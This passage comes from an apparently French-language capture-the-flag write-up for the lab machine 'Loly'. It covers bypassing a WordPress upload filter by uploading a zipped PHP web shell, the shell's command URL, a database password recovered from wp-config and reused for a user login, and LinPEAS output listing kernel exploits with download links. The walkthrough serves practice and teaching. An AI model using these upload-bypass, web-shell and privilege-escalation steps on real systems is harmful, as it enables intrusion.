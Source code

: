 On ne peut pas uploader un script PHP directement, car l'extension sera bloquée, en revanche on peut uploader un zip contenant un script PHP.

Avec une archive nommée `yolo.zip` je retrouve mon shell à cette adresse :

```
http://loly.lc/wordpress/wp-content/banners/yolo/cmd.php?cmd=id
```

Je commence par récupérer les identifiants présents dans la configuration de Wordpress :

```php
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'wordpress' );

/** MySQL database password */
define( 'DB_PASSWORD', 'lolyisabeautifulgirl' );
```

Le mot de passe est valide pour l'utilisatrice `loly`. Malheureusement elle ne semble pas avoir de permissions particulières sur le système.

J'ai surveillé les processus à l'aide de `pspy` mais il semble qu'aucune tache planifiée n'ait été mise en place.

Je me concentre donc sur les exploits suggérés par `LinPEAS` :

```
╔══════════╣ Executing Linux Exploit Suggester
╚ https://github.com/mzet-/linux-exploit-suggester
[+] [CVE-2017-16995] eBPF_verifier

   Details: https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html
   Exposure: highly probable
   Tags: debian=9.0{kernel:4.9.0-3-amd64},fedora=25|26|27,ubuntu=14.04{kernel:4.4.0-89-generic},[ ubuntu=(16.04|17.04) ]{kernel:4.(8|10).0-(19|28|45)-generic}
   Download URL: https://www.exploit-db.com/download/45010
   Comments: CONFIG_BPF_SYSCALL needs to be set && kernel.unprivileged_bpf_disabled != 1

[+] [CVE-2016-8655] chocobo_root

   Details: http://www.openwall.com/lists/oss-security/2016/12/06/1
   Exposure: highly probable
   Tags: [ ubuntu=(14.04|16.04){kernel:4.4.0-(21|22|24|28|31|34|36|38|42|43|45|47|51)-generic} ]
   Download URL: https://www.exploit-db.com/download/40871
   Comments: CAP_NET_RAW capability is needed OR CONFIG_USER_NS=y needs to be enabled

[+] [CVE-2016-5195] dirtycow

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5{kernel:2.6.(18|24|33)-*},RHEL=6{kernel:2.6.32-*|3.(0|2|6|8|10).*|2.6.33.9-rt31},RHEL=7{kernel:3.10.0-*|4.2.0-0.21.el7},[ ubuntu=16.04|14.04|12.04 ]
   Download URL: https://www.exploit-db.com/download/40611
   Comments: For RHEL/CentOS see exact vulnerable versions here: https://access.redhat.com/sites/default/files/rh-cve-2016-5195_5.sh

[+] [CVE-2016-5195] dirtycow 2

   Details: https://github.com/dirtycow/dirtycow.github.io/wiki/VulnerabilityDetails
   Exposure: highly probable
   Tags: debian=7|8,RHEL=5|6|7,ubuntu=14.04|12.04,ubuntu=10.04{kernel:2.6.32-21-generic},[ ubuntu=16.04 ]{kernel:4.4.0-21-generic}
   Download URL: https://www.exploit-db.com/download/40839
   ext-url: https://www.exploit-db.com/download/40847
```